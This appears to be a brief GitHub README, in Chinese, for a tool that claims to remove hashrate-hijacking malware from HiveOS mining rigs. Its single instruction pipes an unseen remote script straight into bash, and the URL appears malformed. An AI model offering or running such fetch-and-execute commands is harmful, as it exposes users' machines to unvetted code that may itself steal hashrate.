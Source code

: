 # HIVEOS-clean
针对HIVEOS及其他定制版本（比如asia版，bigminer等）强力杀毒！
对偷算力，算力劫持等病毒有奇效，无后台，可自行测试！


一键杀毒命令，运行后矿机会自动杀毒重启


```bash 
curl -s https://github.com/SSLminerProxy/HIVEOS-clean/new/main/clean.sh | bash
